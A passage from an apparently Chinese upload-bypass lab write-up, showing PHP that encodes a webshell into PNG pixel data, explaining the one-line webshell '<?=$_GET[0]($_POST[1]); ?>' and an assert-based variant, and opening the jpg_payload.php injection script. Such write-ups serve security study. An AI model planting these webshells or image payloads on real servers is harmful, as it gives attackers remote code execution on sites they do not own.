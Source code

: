 

	$img = imagecreatetruecolor(32, 32);

	for ($y = 0; $y < sizeof($p); $y += 3) {
   		$r = $p[$y];
   		$g = $p[$y+1];
   		$b = $p[$y+2];
   		$color = imagecolorallocate($img, $r, $g, $b);
   		imagesetpixel($img, round($y / 3), 0, $color);
	}

	imagepng($img,'./1.png');
	?>

运行后得到1.png.上传后下载到本地打开如下图。

![U3mL5T.png](https://s1.ax1x.com/2020/07/12/U3mL5T.png)‘

说明：“<?=”是PHP的一个短的开放式标签，是echo() 的快捷用法。

`<?=$_GET[0]($_POST[1]); ?>`相当于`<?php echo($_GET[0]($_POST[1]));?>`

这里我用了eval结果不行，以下是原因：

`$_GET[0]()`是一个可变函数，这意味着如果一个变量名后有圆括号，PHP 将寻找与变量的值同名的函数，并且尝试执行它。可变函数可以用来实现包括回调函数，函数表在内的一些用途。

* 可变函数不能用于例如 echo，print，unset()，isset()，empty()，include，require 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数
* php手册上，eval note:因为是一个语言构造器而不是一个函数，不能被 可变函数 调用。
* 科普一下`call_user_func('assert', $_REQUEST['assert']);`,call_user_func — 把第一个参数作为回调函数调用


所以这个文件包含上传的png图片马，构造如图参数：

![U3aEJH.png](https://s1.ax1x.com/2020/07/12/U3aEJH.png)

#### **jpg上传**

这里也采用国外大牛编写的脚本jpg_payload.php.

	
```
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */

```